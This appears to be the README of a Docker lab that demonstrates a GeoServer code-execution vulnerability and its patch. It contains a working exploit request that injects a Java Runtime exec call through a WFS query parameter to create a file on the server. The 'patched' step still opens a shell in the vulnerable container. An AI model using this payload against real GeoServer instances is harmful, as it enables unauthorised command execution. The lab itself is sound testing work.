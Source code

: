  
# setup 
```bash
docker compose up
```
# Vulnerable version
```
curl "http://172.20.0.3:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1')"
docker exec -it geoserver-vulnerable-1 /bin/bash
ls /tmp/success1
```
# Patched version
do the same for a secured geoserver instance at 172.20.0.2
```
curl "http://172.20.0.2:8080/geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success2')"
docker exec -it geoserver-vulnerable-1 /bin/bash
ls /tmp/success2
```
you can see there is no file with this path

